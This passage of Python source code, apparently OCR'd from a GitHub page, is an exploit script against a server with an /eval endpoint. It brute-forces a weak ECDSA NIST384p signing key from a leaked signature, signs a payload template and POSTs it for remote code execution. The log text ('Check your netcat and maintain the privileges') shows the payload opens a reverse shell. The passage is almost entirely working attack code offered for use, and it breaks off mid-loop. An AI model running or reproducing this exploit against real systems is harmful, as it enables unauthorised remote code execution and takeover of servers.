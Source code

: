 ```python


def check_server():
    queryurl = BASEHOST
    logger.critical("Trying to check server status...")
    r = requests.get(queryurl)
    logger.info(r.json())


def get_dbg_info():
    queryurl = BASEHOST + "/debug"
    logger.critical("Getting Debug Info...")
    r = requests.get(queryurl)
    logger.debug(r.json())
    return r.json()


def send_exploit(rand):
    sk = SigningKey.from_secret_exponent(rand, curve=NIST384p)
    vk = sk.get_verifying_key()

    def sign(msg):
        return binascii.hexlify(sk.sign(msg))

    queryurl = BASEHOST + "/eval"
    finalexploit = PAYLOAD_TEMPL
    logger.critical("Sending exploit...")
    payload = {
        "expr": finalexploit,
        "sig": sign(finalexploit.encode()).decode()
    }
    r = requests.post(queryurl, json=payload)
    try:
        logger.info(r.json())
        logger.info("Seems Work. Check your netcat and maintain the privileges.")
    except:
        logger.error("Error: Payload Error!")
        logger.error(r.text)


def printusage():
    print("------------------------------------------------------------------------------")
    print("Usage: Directly Modify the Script and Run it")
    print("PLEASE NOTE: THE SHELL HERE IS UNSTABLE, DO NOT USE IT FOR A LONG TIME PERIOD!")
    print("------------------------------------------------------------------------------")


def try_bf(orijson):
    def verify(vk, msg, sig):
        try:
            return vk.verify(binascii.unhexlify(sig), msg)
        except:
            return False

    logger.info("You have about 25% rate to get a correct rand.")
    oridt = orijson['response']['Expression'].encode()
    orisig = orijson['response']['Signature'].encode()
    FLAG = 0
    for i in range(1, 501):
        logger.info("Current Working on: RAND=" + str(i))
        rand = i
        sk = SigningKey.from_secret_exponent(rand, curve=NIST384p)
        vk = sk.get_verifying_key()
```